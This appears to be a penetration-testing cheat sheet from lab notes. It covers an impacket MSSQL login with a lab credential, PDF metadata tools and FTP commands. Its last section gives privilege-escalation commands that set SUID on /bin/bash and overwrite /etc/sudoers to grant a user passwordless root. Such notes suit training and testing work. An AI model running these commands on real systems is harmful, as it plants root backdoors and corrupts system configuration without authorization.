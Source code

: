 cmd to connect to MSSQL
```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

### PDF INSPECTION TOOLS
basic pdf details
```
exiftool <pdf-name>
```
To display the metadata of any [_supported file_](https://exiftool.org/#supported), we can use [_exiftool_](https://exiftool.org/). Let's provide the arguments **-a** to display duplicated tags and **-u** to display unknown tags along with the filename **brochure.pdf**:
```
exiftool -a -u brochure.pdf
```

```
pdfinfo <pdf-name>
```

inspecting pdf data thoroughly using low-level PDF structure analysis, script object extraction, and basic metadata inspection.
```
pdf-parser <pdf-name>
```


### FTP 
```
ftp <IP>
```
to download files
```
get <file>
```
to download all files present 
```
mget <folder name>
```
to list files
```
ls
```



### COMMAND EXEC AS ROOT
#### TO SET SUID
```
chmod u+s /bin/bash
```
#### TO ADD USER TO SUDOERS 
```
echo 'cassie ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```
